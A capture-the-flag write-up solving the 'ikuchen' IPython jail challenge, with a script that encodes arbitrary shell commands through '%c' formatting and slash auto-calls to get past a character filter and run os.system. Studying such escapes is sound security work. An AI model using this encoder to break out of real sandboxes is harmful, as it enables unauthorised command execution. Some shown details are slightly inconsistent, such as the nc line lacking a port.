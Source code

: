 # ikuchen

## Description

> Somehow our cat :cat2: ate all the .py. And some letters, too... Who needs brackets, anyway?

## Analysis

Connecting to the provided IP using `netcat` provides access to a modified [IPython](https://ipython.org/) session.

```
$ nc 199.247.4.207 5656
Oh hi there, I didn't see you come in!
  How do you do?
  There must be a flag lying around somewhere on this blech.
  If you could be so kind and help me find it.
  How do 15 seconds of RCE in IPython sound?
  Sadly the cat ate some of characters while I baked them. 🐈

/usr/local/lib/python3.8/site-packages/IPython/paths.py:66: UserWarning: IPython parent '/home/c3junior' is not a writable location, using a temp directory.
  warn("IPython parent '{0}' is not a writable location,"
Python 3.8.1 (default, Jan  3 2020, 22:55:55) 
Type 'copyright', 'credits' or 'license' for more information
IPython 7.11.1 -- An enhanced Interactive Python. Type '?' for help.

In [1]: 
```

A lot of IPython special features are hidden behind magic commands. Trying to use any of them gives us more insight into the sandbox.

```
In [1]: %edit
Out[?]: The cat 🐈 will eat lines starting with `%`.
        Oh and btw I found out it eats the following: `p*[^%\x2D-\x3D\x40-\x50\x27\x5F-\x6D\x20\x76-\x7A]*,*`
```

While the regular expression is quite unusual it only allows the following characters:

```
%-./0123456789:;<=@ABCDEFGHIJKLMNOP'_`abcdefghijklm<space>vwxyz
```

Writing the simple command `exec('cat /flag')` isn't going to be possible, partially because even parentheses aren't allowed.

```
In [1]: exec('cat /flag')
  File "<ipython-input-1-7e34d6fd0f38>", line 1
    exec'ca /flag'
        ^
SyntaxError: invalid syntax
```

## Solution

The percent sign can be used for formatting which enables building arbitrary characters.

```
In [1]: '%c' % 97
Out[1]: 'a'
```

In IPython using a slash at the beginning of the line causes all the expressions to be comma separated and put into parentheses.

```
In [1]: / 1 2 3
Out[1]: (1, 2, 3)
```

The same method can be used to call functions.

```
In [1]: /exec
---------------------------------------------------------------------------
TypeError                                 Traceback (most recent call last)
<ipython-input-1-b97c57496d75> in <module>
----> 1 exec()
```

This method used with the variable `_` which holds the last evaluated value makes it possible to use multiple formatting arguments in a single string.

```
In [1]: / 97 98
Out[1]: (97, 98)

In [2]: '%c%c' % _
Out[2]: 'ab'
```

A simple script can automate the process of building encoded commands.


```python
#!/usr/bin/env python3

import re
import sys

REG = re.compile(r"p*[^%\x2D-\x3D\x40-\x50\x27\x5F-\x6D\x20\x76-\x7A]*,*")

payload = f'import os;os.system("{sys.argv[1]}")'

template = ""
args = []

for c in payload:
    if REG.match(c).group(0):
        template += "%c"
        args.append(ord(c))
    else:
        template += c

print("/ " + " ".join(str(a) for a in args))
print(f"'{template}' % _")
print("/exec _")
```

```
$ ./encoder.py "cat flag.txt"
/ 112 111 114 116 111 115 111 115 115 115 116 40 34 116 116 116 34 41
'im%c%c%c%c %c%c;%c%c.%cy%c%cem%c%cca%c flag.%cx%c%c%c' % _
/exec _
```

Feeding that payload into the server gives us back the flag

```
$ ./encoder.py "cat flag.txt" | nc 199.247.4.207
...
In [1]: Out[1]: 
(112,
 111,
 114,
 116,
 111,
 115,
 111,
 115,
 115,
 115,
 116,
 40,
 34,
 116,
 116,
 116,
 34,
 41)

In [2]: Out[2]: 'import os;os.system("cat flag.txt")'

In [3]: 36c3{IPython_jails_are_EASY_2_secu__cthulhu}
```